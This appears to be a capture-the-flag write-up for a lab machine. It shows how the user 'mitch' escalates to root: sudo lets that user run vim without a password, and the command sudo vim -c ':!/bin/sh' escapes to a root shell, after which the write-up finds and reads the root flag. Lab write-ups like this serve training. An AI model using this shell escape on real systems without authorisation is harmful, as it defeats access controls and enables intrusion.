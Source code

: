 
### What can you leverage to spawn a privileged shell?
To start off, I checked to see what programs that the current user, mitch, could run:

```shell
sudo -l
```

...and recieved the following:

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

That was easy! It looks like **"vim"** is our answer!

### What's the root flag?
Since we know that we are able to run Vim as root, I entered the following command:

```
sudo vim -c ':!/bin/sh'
```

This code starts Vim as super-user, then performs a command in Vim(as a super-user), and the command we performed is starting a shell. So, we'll see if we find any success...

It returned the following:

![root screen](https://user-images.githubusercontent.com/87711310/207847195-f42e73a4-1a28-40d0-bc2b-233d6e800ad8.png)

Never mind that gibberish on the right, that hash-mark on the very right is very promising! To verify if I'm root, I typed the following:

```shell
whoami
```

...and recieved the following:

```
root
```

I am root!


Now that I am root, I will search for the flag with the following script:

```
find / -type f -name 'root.txt' 2>/dev/null
```

...and it returned:

```
/root/root.txt
```

...open the file, and our flag is:

```
W3ll d0n3. You made it!
```

We did it! I hope this was helpful!
	
